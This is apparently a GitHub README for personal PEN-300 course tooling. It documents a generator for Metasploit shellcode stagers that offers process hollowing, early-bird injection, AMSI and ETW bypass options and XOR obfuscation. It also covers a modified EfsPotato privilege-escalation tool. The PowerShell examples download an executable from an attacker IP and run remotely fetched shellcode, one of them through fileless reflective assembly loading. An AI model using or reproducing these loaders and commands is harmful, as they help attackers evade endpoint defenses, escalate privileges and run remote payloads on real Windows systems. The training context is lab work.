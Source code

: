# Tools for my PEN-300 course

* Update `interface` and `lport` in `config.yml` to your MSF (or other C2) listening IP and port before crafting any tools.
* By default, staged payloads will pull from the following URL `http://(LHOST)/sc`.
* Stageless payloads will automatically apply an XOR encryption to obfuscate the shellcode.

## MSF Stager

```
usage: generate_win_msf_stager.py [-h]
                                  [--injection {hollow,interprocess,earlybird,standard}]
                                  [--format {exe,dll}]
                                  [--heuristics | --no-heuristics]
                                  [--amsi | --no-amsi] [--etw | --no-etw]
                                  [--stageless | --no-stageless]

optional arguments:
  -h, --help            show this help message and exit
  --injection {hollow,interprocess,earlybird,standard}, -i {hollow,interprocess,earlybird,standard}
  --format {exe,dll}, -f {exe,dll}
  --heuristics, --no-heuristics
  --amsi, --no-amsi
  --etw, --no-etw
  --stageless, --no-stageless
```

## Examples

```sh
# Create a dll that will use hollowing to load shellcode
python3 generate_win_msf_stager.py --injection hollow --format dll

# Create a stageless exe that will load and run shellcode within the same process
python3 generate_win_msf_stager.py --stageless --format exe
```

## EFSPotato Local Priv Escalation
The code is forked from https://github.com/zcgonvh/EfsPotato

I modified it to pull shellcode from the URL specified in the first argument, and then use process hollowing
to start an svchost.exe process and inject the shellcode into it.

### Standard Execution
```powershell
wget http://10.10.14.110/EfsPotato.exe -o C:\windows\tasks\EfsPotato.exe
C:\windows\tasks\EfsPotato.exe http://10.10.14.110/shellcode
```

### Using Assembly Reflection
```powershell
$u="http://10.10.14.110/EfsPotato.exe"
$b=(New-object system.net.webclient).DownloadData($u)
$a=[System.Reflection.Assembly]::Load($b)
[EfsPotato.Program]::Main("http://10.10.14.110/shellcode")
```
